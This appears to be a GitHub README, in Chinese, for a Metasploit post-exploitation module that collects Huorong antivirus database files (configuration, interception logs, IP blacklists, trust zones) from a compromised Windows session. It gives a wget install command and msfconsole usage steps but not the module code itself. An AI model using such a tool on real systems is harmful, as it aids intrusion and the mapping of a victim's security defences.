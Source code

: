 # get_huorong_db

| 用途                | 文件名         |
| :------------------ | :------------- |
| 用户配置文件        | config.db      |
| 行为拦截记录和配置  | hips.db        |
| 病毒库              | virdb/*        |
| 联网控制限速        | hrfw.db        |
| IP黑名单,IP协议控制 | ipproto.db     |
| 行为拦截日志        | log.db         |
| 系统修复            | sysrepair.db   |
| 垃圾清理            | db/sysclean.db |
| 系统防护            | user.db        |
| 信任区,爆破攻击防护 | wlfile.db      |
| 文件监控日志        | applog.db      |

一个~~垃圾~~msf模块，师傅们轻点喷

# 安装

## Linux

```bash
wget -O /usr/share/metasploit-framework/modules/post/windows/gather/get_huorong_db.rb https://raw.githubusercontent.com/2096779623/get_huorong_db/main/get_huorong_db.rb
```

# 使用

```bash
use post/windows/gather/get_huorong_db
set FILENAME #要获取的文件名
set DIRECTORY #可选，指定目录，比如db，不需要加/或\
set SESSION #懂得都懂
run
```

# 欢迎PR

* 下载整个目录
* 判断文件/进程(~~俗称屎山~~)
* sqlite3直接解析
